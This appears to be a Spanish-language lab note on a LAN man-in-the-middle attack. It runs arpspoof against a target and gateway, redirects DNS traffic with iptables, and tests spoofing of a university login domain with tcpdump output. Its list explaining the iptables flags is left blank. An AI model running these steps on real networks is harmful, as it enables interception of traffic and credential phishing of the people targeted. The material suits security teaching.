 
```shell
git clone https://github.com/byt3bl33d3r/arpspoof.git
cd arpspoof
```

```shell
OBJETIVO=192.168.1.100 
GATEWAY=192.168.1.1
NIC=enp3s0f0
sudo python3 arpspoof/arpspoof.py -i $NIC -t $OBJETIVO $GATEWAY 
```


## Redirección de puerto 53

```shell
sudo sysctl net.ipv4.ip_forward=1
sudo iptables --flush
sudo iptables --flush -t nat
sudo iptables -t nat -A PREROUTING -p udp --destination-port 53 -j REDIRECT --to-port 53
sudo iptables -t nat -L -n -v
```

donde 

1. `-t nat`: 

2. `-A PREROUTING`: 

3. `-p udp`: 

4. `--destination-port 53`: 

5. `-j REDIRECT`: 

6. `--to-port 53`: 


```shell
$ sudo ss -tulpn | grep 53
udp    UNCONN   0        0                 0.0.0.0:53             0.0.0.0:*      users:(("python",pid=545823,fd=3))  
udp     UNCONN   0        0           127.0.0.53%lo:53               0.0.0.0:*       users:(("systemd-resolve",pid=1329,fd=12)) 
```

<https://www.linuxuprising.com/2020/07/ubuntu-how-to-free-up-port-53-used-by.html>

## Prueba DNSspoofing para LAN

```shell
victima$ nslookup login.unal.edu.co
victima$ ping login.unal.edu.co
```

```shell
atacante$ sudo tcpdump -n "src or dst host 192.168.1.102 and dst port 53 or src port 53" | grep login.unal.edu.co
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on enp3s0f0, link-type EN10MB (Ethernet), capture size 262144 bytes
05:08:46.636065 IP 192.168.1.102.48865 > 8.8.8.8.53: 45576+ AAAA? login.unal.edu.co. (35)
05:08:49.211907 IP 192.168.1.102.42197 > 8.8.8.8.53: 3208+ A? login.unal.edu.co. (35)
```
